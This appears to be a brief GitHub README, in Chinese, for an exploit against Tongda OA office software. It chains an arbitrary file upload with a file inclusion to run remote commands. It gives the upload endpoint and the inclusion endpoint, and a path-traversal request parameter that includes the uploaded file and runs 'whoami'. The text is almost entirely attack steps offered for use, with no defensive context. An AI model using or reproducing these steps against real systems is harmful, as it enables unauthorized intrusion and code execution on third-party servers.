 ﻿# tongdaOA
通达OA 任意文件上传+文件包含导致远程代码执行

上传路径/ispirit/im/upload.php

文件包含路径
/ispirit/interface/gateway.php

执行命令
json={"url":"/general/../../attach/im/2003/文件名称.jpg"}&cmd=whoami
